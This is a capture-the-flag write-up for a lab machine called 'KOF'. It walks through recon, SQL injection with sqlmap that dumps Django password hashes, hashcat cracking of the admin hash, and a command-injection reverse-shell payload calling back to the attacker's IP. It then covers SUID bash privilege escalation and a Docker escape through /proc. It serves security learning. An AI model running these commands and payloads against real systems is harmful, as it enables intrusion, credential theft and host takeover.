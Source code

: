 # KOF
![index image](../images/kof/index.png)

## Recon
In the beginning, I used NMAP with the following parameters. I found only ports 22 and 8000 open (it seems to be a Django application running on Linux).
```
sudo nmap 172.16.11.225 -Pn -sSVC -T5

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
8000/tcp open  http-alt WSGIServer/0.2 CPython/3.9.19
|_http-server-header: WSGIServer/0.2 CPython/3.9.19
|_http-title: KOF 2002 Championship
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

I performed fuzzing on the Django application using Feroxbuster and discovered three directories: register, panel, and dashboard.
```
feroxbuster -u http://172.16.11.225:8000/

found:5       errors:0      
http://172.16.11.225:8000/ 
http://172.16.11.225:8000/register/ 
http://172.16.11.225:8000/panel/ 
http://172.16.11.225:8000/dashboard/
```
![ferox image](../images/kof/ferox.png)

Upon accessing the page, the most prominent feature is a search field that passes the `q` parameter via GET and displays the searched team.
![q parameter image](../images/kof/q_parameter.png)

When testing this endpoint with SQLMap, it was identified that the database uses SQLite and that the parameter is vulnerable to SQL injection (SQLi).
`python3 sqlmap.py -u "172.16.11.225:8000/?q=teste" --risk 3 --level`

![sqlmap 1 image](../images/kof/sqlmap_q1.png)
![sqlmap 2 image](../images/kof/sqlmap_q2.png)

## Exploitation
We can include the `--dbms` sqlite flag to specify that the database in use is SQLite.

To enumerate the database tables, we use the `--tables` option and execute the following arguments: `--dbms sqlite --threads 10`.
```
python3 sqlmap.py -u "172.16.11.225:8000/?q=teste" --dbms "sqlite" --tables --threads 10

[12 tables]
+----------------------------+
| auth_group                 |
| auth_group_permissions     |
| auth_permission            |
| auth_user                  |
| auth_user_groups           |
| auth_user_user_permissions |
| authentication_teams       |
| django_admin_log           |
| django_content_type        |
| django_migrations          |
| django_session             |
| sqlite_sequence            |
+----------------------------+
```

To discover the columns of a table, we use the `-T table_name --columns` option. In our case, we'll retrieve the columns from the `auth_user` table, as we have a `/panel` endpoint where we can attempt to log in.
```
python3 sqlmap.py -u "172.16.11.225:8000/?q=teste" --dbms "sqlite" --threads 10 -T auth_user --columns

Table: auth_user
[11 columns]
+--------------+----------+
| Column       | Type     |
+--------------+----------+
| date_joined  | datetime |
| email        | varchar  |
| first_name   | varchar  |
| id           | integer  |
| is_active    | TEXT     |
| is_staff     | TEXT     |
| is_superuser | TEXT     |
| last_login   | datetime |
| last_name    | varchar  |
| password     | varchar  |
| username     | varchar  |
+--------------+----------+
```

From the `auth_user` table, we want to extract the `username`, `password`, `is_staff`, and `is_superuser` columns. Most likely, the user with `is_staff` and `is_superuser` set to true will be the admin.
```
$ python3 sqlmap.py -u "172.16.11.225:8000/?q=teste" --dbms "sqlite" --threads 10 -T auth_user -C username,password,is_staff,is_superuser --dump

Table: auth_user
[3 entries]
+----------+------------------------------------------------------------------------------------------+----------+--------------+
| username | password                                                                                 | is_staff | is_superuser |
+----------+------------------------------------------------------------------------------------------+----------+--------------+
| lucas    | pbkdf2_sha256$600000$uK8mOpGqJgz6n8NpSq6sW4$teEmzYbauC23hUiCWchvGVcOxbPkNOIEq4yZ3ZCc2vw= | 0        | 0            |
| sitara   | pbkdf2_sha256$600000$hgmRaAKIjaJXPw15HJtGzM$rcr8QB224t9Rf8e1AKpyfimvWLTJl1r+ZCGTtvKI8X4= | 0        | 0            |
| vanessa  | pbkdf2_sha256$720000$uPmPwj655iBMXMnJkLwRfZ$yqgjRdOIa3GV9uFMTFSR6RLTRfz/PQxQ6u31NkYtYMQ= | 1        | 1            |
+----------+------------------------------------------------------------------------------------------+----------+--------------+
```

The user "vanessa" is likely the admin. We can use Hashcat to identify the hash type (based on the hash itself, we conclude it’s a PBKDF2-SHA256 from Django). To do this, we extract the hash of the user and save it in a file without an extension, named `hash`. From there, we can attempt to crack the hash using Hashcat with mode `10000` (for PBKDF2-SHA256) and the Rockyou wordlist.
```
hashcat --identify hash

The following hash-mode match the structure of your input hash:

    # | Name                                                       | Category
======+============================================================+======================================
10000 | Django (PBKDF2-SHA256)                                     | Framework
```
```
hashcat -m 10000 hash /usr/share/seclists/Passwords/rockyou.txt

pbkdf2_sha256$720000$uPmPwj655iBMXMnJkLwRfZ$yqgjRdOIa3GV9uFMTFSR6RLTRfz/PQxQ6u31NkYtYMQ=:princess1
```

Therefore, the admin password for "vanessa" is `princess1`. Upon accessing the `/panel` endpoint with admin creds, we encounter this page.
![panel image](../images/kof/panel1.png)

By clicking to generate an IP and then on "Test Connection," we can analyze the request. A POST request is made to the backend with the CSRF, game, vpn, and test_connection parameters. It seems that this feature tests the connection to another host in some way.
![panel image](../images/kof/panel2.png)

Since the machine doesn't have internet access, it won't be able to reach any public IP. However, if we place a local IP in the `test_connection` parameter, it responds that the connection was successful, and the test indicates that there is a connection.
![panel image](../images/kof/panel3.png)

What might be happening here is that we are directly passing the IP, and the server is executing some action. We can try to establish a reverse connection to our machine by injecting a ; (since it could be executed in bash) and using Python. Payload:
```
;export RHOST="10.0.10.235";export RPORT=1234;python-c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")';
```
![shell request image](../images/kof/shell_request.png)
![shell image](../images/kof/shell.png)

To upgrade the shell to a full TTY, we can follow these steps:
* Type `python3 -c 'import pty; pty.spawn("/bin/bash")'`.
* Press `Ctrl+Z` to background the shell as a service.
* Type `stty raw -echo && fg`.
* Press `Enter`.
* Finally, type `export TERM=xterm`.

## Post exploitation
At first glance, using `ps aux`, I identified that we are in a Docker environment. I couldn't find the first flag, meaning the first objective is to escalate to root, and the second is to perform a Docker escape.

After running `linpeas` on the server, I found two endpoints to investigate. Upon analyzing this information, we can conclude that `/usr/bin/bash` may be exploitable (it has the SUID bit set).
```
══╣ Breakout via mounts
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation/sensitive-mounts

-rwsr-xr-x 1 root root 1.3M Apr 23  2023 /usr/bin/bash 

═╣ /proc mounted? ................. Yes
```

```
cp /bin/bash /tmp/ #From non priv inside mounted folder
# You need to copy it from the host as the bash binaries might be diferent in the host and in the container
chown root:root bash #From container as root inside mounted folder
chmod 4777 bash #From container as root inside mounted folder
bash -p #From non priv inside mounted folder
```

By exploiting this, we will escalate privileges to root in order to retrieve the first flag in `/root`.

## Docker escape/breakout
To perform the Docker breakout/escape, I will use the `/proc` endpoint. First, I need to retrieve the Docker process ID by running `ps aux | grep docker`.
<br>
![id process image](../images/kof/id_proc.png)

With this, we can access the Docker process directory, navigate to the root directory, and then escape to the root directory of the host machine running the Docker container. So `cd /proc/2741/root/`.
<br>
![docker breakout image](../images/kof/docker_breakout.png)

Here are the two flags: one for the default root user after privilege escalation (`flag.txt`), and the other for the Docker breakout (`root.txt`).
**Disclaimer**: Docker breakout can be achieved in other ways, such as using Process Injection.
- [Linux Process Injection - W3ndige](https://github.com/W3ndige/linux-process-injection/)
- [7 Ways to Escape a Container - Panoptica](https://www.panoptica.app/research/7-ways-to-escape-a-container)